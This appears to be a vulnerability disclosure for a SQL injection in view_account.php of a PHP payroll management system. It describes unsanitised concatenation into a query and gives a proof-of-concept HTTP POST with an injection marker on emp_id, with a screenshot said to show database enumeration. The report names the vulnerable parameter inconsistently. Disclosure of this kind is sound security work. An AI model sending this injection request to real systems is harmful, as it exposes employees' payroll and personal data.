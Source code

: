 # payroll-management-system-in-php has sql injection in view_account.php

## supplier 
https://code-projects.org/payroll-management-system-in-php-with-source-code/
## Vulnerability parameter
view_account.php

## describe

An unrestricted SQL injection attack exists in payroll-management-system in view_account.php The parameters that can be controlled are as follows: $salary_rate. This function executes the id parameter into the SQL statement without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

**Code analysis**    

When the value of   $salary_rate parameter is obtained in function , it will be concatenated into SQL statements and executed, which has a SQL injection vulnerability. 

![Image](https://github.com/user-attachments/assets/360dc6c5-3c70-4efe-bb8a-64876eddf8fd)



## POC

```
POST /view_account.php HTTP/1.1
Host: payroll
Content-Length: 75
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://payroll
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://payroll/home_employee.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=85u4m47klj7ldjr47mclti8mr6
Connection: close

emp_id=1*
```



**Result**

get databases 

![image-20241226013405312](https://github.com/user-attachments/assets/fd4a6d5f-7c7d-418d-8db1-2bbd2d5bc9a0)
